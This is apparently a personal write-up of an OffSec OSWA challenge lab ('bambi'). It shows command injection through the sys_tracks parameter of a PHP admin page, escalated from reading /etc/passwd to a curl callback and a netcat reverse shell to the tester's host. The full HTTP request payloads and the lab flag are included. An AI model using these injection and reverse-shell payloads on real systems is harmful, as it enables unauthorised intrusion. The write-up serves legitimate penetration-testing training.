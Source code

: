 
#### Finding the Vulnerable Parameter
Upon finding the **System Info Page***, where local.txt was we see in `Burpsuite` that there may be parameters that could be exploited
![[Pasted image 20241111113912.png]]
The parameters `sys_info=` and `sys_tracks=` look like parameters that could be exploited.
![[Pasted image 20241111113848.png]]
originally I tried to replace the `-h` in `sys_info` and the file path in `sys_tracks` however - even after changing them the response still shows the default options, this could potentially mean that they are hard coded into the web page
![[Pasted image 20241111114417.png]]
after looking in the `OFFSEC` discord I saw that someone else abused these parameters the same way however used `;` to append commands.

to test this I utilized `cat /etc/passwd` and ensured to utilize `CTRL+U ` in burp to url encode.
full payload:
```http
POST /dev/admin.php HTTP/1.1

Host: bambi
Content-Length: 63
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://bambi
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bambi/dev/admin.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=a3b6945256d08ae6372daaaca7b8c375
Connection: keep-alive

sys_info=-h&sys_tracks=%2Fvar%2Ftmp%2Ftracks%2F;cat+/etc/passwd
```
![[Pasted image 20241111120056.png]]

--------------
#### Testing RCE
After seeing that I had `Local Code Execution` I wanted to test `Remote Code Execution`, to do this I utilized the command below to setup an `apache2` server
```bash
┌──(root💀gobots)-[11Nov2024 16:35:17]-[/var/www/html/bambi]
└─# systemctl restart apache2 
```
and the next command to ensure it was started
```bash
┌──(root💀gobots)-[11Nov2024 16:31:19]-[/home/…/SUT/OSWA/challenge_labs/bambi]                                                                       
└─# systemctl status apache2                                                                         
● apache2.service - The Apache HTTP Server
     Loaded: loaded (/usr/lib/systemd/system/apache2.service; disabled; preset: disabled)            
     Active: active (running) since Mon 2024-11-11 16:30:46 UTC; 35s ago
       Docs: https://httpd.apache.org/docs/2.4/
    Process: 1432328 ExecStart=/usr/sbin/apachectl start (code=exited, status=0/SUCCESS)
   Main PID: 1432383 (apache2)
      Tasks: 7 (limit: 9391)                                                                         
     Memory: 14.2M (peak: 14.8M)
        CPU: 96ms         
     CGroup: /system.slice/apache2.service
             ├─1432383 /usr/sbin/apache2 -k start
             ├─1432438 /usr/sbin/apache2 -k start
             ├─1432439 /usr/sbin/apache2 -k start                                                    
             ├─1432440 /usr/sbin/apache2 -k start
             ├─1432441 /usr/sbin/apache2 -k start
             ├─1432442 /usr/sbin/apache2 -k start
             └─1432443 /usr/sbin/apache2 -k start
                                                                                                     
Nov 11 16:30:45 gobots systemd[1]: Starting apache2.service - The Apache HTTP Server...
Nov 11 16:30:46 gobots apachectl[1432331]: AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using fe80::20c:29ff:fe7c:5cd3%eth0. Set the 'ServerName' directive gl>
Nov 11 16:30:46 gobots systemd[1]: Started apache2.service - The Apache HTTP Server.
```
created a `bambi` directory in `var/www/html`
![[Pasted image 20241111115232.png]]
and utilized the vulnerable parameter to attempt to `curl` the `bambi` directory

original payload:
```bash
curl http://192.168.45.222:80/bambi/
```
full encoded in burpsuite:
```http
POST /dev/admin.php HTTP/1.1
Host: bambi
Content-Length: 88
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://bambi
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bambi/dev/admin.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=a3b6945256d08ae6372daaaca7b8c375
Connection: keep-alive

sys_info=-h&sys_tracks=%2Fvar%2Ftmp%2Ftracks%2F;curl+http%3a//192.168.45.222%3a80/bambi/
```
the response displays no indication that it worked
![[Pasted image 20241111115711.png]]
however if we check the `/var/log/apache2/access.log` we can see that the `curl` worked
```bash
┌──(root💀gobots)-[11Nov2024 16:35:50]-[/var/log/apache2]
└─# less /var/log/apache2/access.log
```
![[Pasted image 20241111120007.png]]

-------------
#### Exploiting RCE

can see that `nc` exists on the system with `which nc` - URL encoded of course
![[Pasted image 20241111120243.png]]
setting up `nc` listener on `kali`
```bash
┌──(root💀gobots)-[11Nov2024 17:04:20]-[/var/log/apache2]
└─# nc -lvnp 1337                   
listening on [any] 1337 ...
```
creating payload to get a reverse shell:
```bash
/bin/nc 192.168.45.222 1337 -e /bin/bash
```
full burpsuite payload with url encoding `CTRL+U`
```http
POST /dev/admin.php HTTP/1.1
Host: bambi
Content-Length: 88
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://bambi
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bambi/dev/admin.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=a3b6945256d08ae6372daaaca7b8c375
Connection: keep-alive

sys_info=-h&sys_tracks=%2Fvar%2Ftmp%2Ftracks%2F;/bin/nc+192.168.45.222+1337+-e+/bin/bash
```
![[Pasted image 20241111121110.png]]

---------
#### proof.txt
`d11bef021998cd1b94b1b38b473b8b83`
![[Pasted image 20241111121205.png]]
![[Pasted image 20241111121249.png]]
